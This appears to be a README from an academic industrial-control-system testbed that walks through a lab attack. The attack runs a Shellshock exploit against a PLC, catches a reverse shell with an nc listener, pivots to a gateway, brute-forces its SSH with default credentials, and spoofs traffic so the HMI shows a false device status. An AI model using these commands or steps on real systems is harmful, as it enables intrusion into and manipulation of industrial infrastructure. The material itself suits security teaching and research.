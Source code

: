 # Multi Stage Attack scenario

This page outlines an attack targeting the Internal Gateway, which is not directly accessible from the attacker machine. To overcome this limitation, the attacker leverage ShellShock vulnerability in the Genera-PLC to pivot and gain access to the target. Then, traffic is spoofed to manipulate M-IED1 device.

---

The first stage of the attack path exploits the Shellshock vulnerability in the General-PLC, specifically targeting the CGI-Bin module of the Apache web server. This vulnerability enables attackers to inject and execute malicious commands through specially crafted HTTP requests since the CGI (Common Gateway Interface) scripts on Apache invoke the Bash shell for processing the HTTP response. The following commands illustrate the exploitation process:

- Execute the exploit:
```bash
python3 shellshock.py 10.0.1.100 4444 http://10.0.1.66//cgi-bin/stats
```

- Establish a reverse shell listener:
```bash
nc -lvnp 4444
```

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/shellshock.png "Figure: Shellshock Exploit")

![Reverse Shell](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/reverse.png "Figure: Reverse Shell")

To progress further along the attack path, the attacker must perform pivoting to reach the I-Gateway. Indeed, this device is typically unreachable from the SCADA Network. However, by compromising the General-PLC, the attacker can bypass these restrictions and establish a connection to the I-Gateway using port forwarding techniques.

![Tool Download](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/download.png "Figure: Tool Download")

Then, the attacker is able to brute force the SSH service exposed by the gateway and take complete control of the endpoint. In fact, this service was exploited by finding the default credential. Therefore, this credential enables us also to gain root privilege.

![SSH Bruteforce](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/bruteforce.png "Figure: SSH Bruteforce")

Then, the attacker brute-forces the SSH service exposed by the I-Gateway. This attack exploits the discovery of default credentials configured for the SSH authentication mechanism. Moreover, the use of these credentials grants root privileges.

![SSH Access](https://github.com/NS-unina/SCASS/tree/master/AttackerNode/images/sshAccess.png "Figure: SSH Access")

Finally, the attacker alters the communication passing through the I-Gateway in order to manipulate the visualization of the M-IED1 status.

![Packet Modification](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/packetModification.png "Figure: Packet Modification")

Indeed, from the HMI interface, we can observe that MIED1 appears to be active. However, by using the TestNode, which is connected to the same network interface as the MPLC, it is possible to confirm that the displayed MIED1 is close.

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/HMI.png "Figure: Shellshock Exploit")

![Shellshock Exploit](https://github.com/NS-unina/SCASS/blob/master/AttackerNode/images/coils.png "Figure: Shellshock Exploit")
